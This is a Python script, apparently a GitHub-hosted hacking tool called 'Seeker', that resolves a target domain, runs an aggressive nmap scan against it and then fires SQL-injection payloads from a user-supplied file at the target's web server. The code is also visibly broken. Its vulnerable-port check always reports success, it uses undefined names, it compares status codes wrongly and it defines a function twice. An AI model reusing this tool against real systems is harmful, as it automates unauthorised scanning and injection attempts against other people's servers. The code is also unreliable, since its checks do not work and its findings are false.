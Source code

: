 #!/usr/bin/python3
import mechanize
import socket
import os
import optparse
import sys
import subprocess as sub
import time
import platform
import requests
from colorama import Fore
wi="\033[1;37m" #>>White#
rd="\033[1;31m" #>Red   #
gr="\033[1;32m" #>Green #
yl="\033[1;33m" #>Yellow#
st = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
def first_slow_print(s):
    for c in s + '\n' :
        sys.stdout.write(c)
        sys.stdout.flush()
        time.sleep(10. / 100)
def dependencies_print(s):
    for c in s + '\n' : 
        sys.stdout.write(c)
        sys.stdout.flush()
        time.sleep(10. / 100)
def little_fast_print(s):
    for c in s + '\n' : 
        sys.stdout.write(c)
        sys.stdout.flush()
        time.sleep(4. / 100)

try:
 dependencies_print(wi + yl  + '[!]' + wi + 'Checking Dependencies...')
 check_pip = os.path.exists('/usr/bin/pip')
 if  check_pip == False:
   dependencies_print(wi + rd + '[-]'+ wi + 'pip not installed')
   dependencies_print(wi + gr + '[+]' + wi + 'Installing pip...') 
   os.system('sudo apt update -y')
   os.system('sudo apt install python3-pip -y ') 
 else:
   dependencies_print(wi + gr + '[+]' + wi + 'No missing dependencies')
except ImportError:
 print('error')
def banner():
  first_slow_print(wi + '''
▒▒▒▒▒▒▐███████▌
▒▒▒▒▒▒▐░▀░▀░▀░▌
▒▒▒▒▒▒▐▄▄▄▄▄▄▄▌
▄▀▀▀█▒▐░▀▀▄▀▀░▌▒█▀▀▀▄
▌▌▌▌▐▒▄▌░▄▄▄░▐▄▒▌▐▐▐▐
''')
  print(wi + gr + '[+]' + wi +'Seeker By FonderElite')
  print(wi + gr + '[+]' + wi + 'Github:https://github.com/FonderElite')
banner()

def banner(ip, port):
    ports = [80,443,21,22]
    s = socket.socket()
    s.connect((ip, int(port)))
    s.settimeout(1.5)
    print(s.recv(1024))
    
def portScanner(host):
 try:
    for i in range(1024):
     connect = st.connect(host,i)
     print("port" + i + "is open")
 except:
        return False
def main():
 while True:
    try:
       domain = input(wi + yl + "[!]" + wi + "Please Enter Domain Name: " + wi)
       param = '-n' if platform.system().lower()=='linux' else '-c'
       ping_param = '-n' if platform.system() == 'linux' else 'C'.lower()
       ip = socket.gethostbyname(domain)
       command = ['ping', '-c', '1', domain]
       check = print(wi + yl + "[!]" + wi + "Checking if host is up...")
       time.sleep(0.5)
       #live = sub.call(command)
       if bool(ip) == True or request == "<Response [200]>":
           print(wi + gr + '[+]' + wi + "Host Is Up")
           print('Ip: ' + ip)
           first_slow_print(wi + yl + "[!]" + wi + "Scanning Open Ports...")
           sub.call(['nmap','-sV','-sC',ip,'-oN','scan.txt'])
           check_file = os.path.exists("scan.txt")
           if check_file == True:
            first_slow_print(wi + gr + "[+]" + wi + "File is saved as scan.txt")
            print(wi + yl + "[!]" + wi + "Overriding Existing File content...")
            time.sleep(0.4)
            save = open("scan.txt","r")
            vp = ['ftp','ssh','telnet','netbios-ssn','dns','pop3','windows-rpc','mysql','http','smtp','msrpc']
            if vp[0] or vp[1] or vp[2] or vp[3] or vp[4] or vp[5] or vp[6] or vp[7] or vp[8] or vp[9] or vp[10] or vp[10] in save:
             first_slow_print(wi + gr + "[+]" + wi + "Vulnerable Port(s) found!")
            else: 
             first_slow_print(wi + rd + "[-]" + wi + "No Vulnerable Ports are present!")
           else: 
            first_slow_print(wi + rd + "[-]" + wi + "File scan.txt Not Found Error")
           #sub.call(['nc ','-l',ip,port])
           try:
            first_slow_print(wi + yl + '[!]' + wi  + 'Testing Blind Sql Injection on the target')
            url = "http://" + ip
            try:
             currentdir = os.getcwd()
             little_fast_print(wi + gr + "[+]" + "Current working dir: " +  wi + str(currentdir))
             sqlw = input(wi + Fore.CYAN + "#" + wi + 'SQLi_Payload location: ')
            except (FileNotFoundError,IsADirectory):
             first_slow_print(wi + rd + "[-]" + wi + "Error, Make sure the file is existing.")
            openw = open(sqlw,'r')
            for i in openw:
             i = i.strip()
             print(wi + yl + "[!]" + wi + "Trying Payload=> " + i)
             blindsql = requests.post(url + "/" + i)
             code = blindsql.status_code
             if 200 in code:
              print(blindsql)
             else:
              pass
           except TypeError:
            print(wi + rd + '[-]' + wi + "Error Occured.")
       else:
          print(wi +  rd + '[-]' + wi + "Host is down or blocking the tool's probes")
    except TypeError:
         print("Error Command")

    #print(ip)
    #print(wi + gr + '[+]' + wi + 'Banner Grabbing... + str(ip)')
    #port = input("Port: ")
    #

main()
          
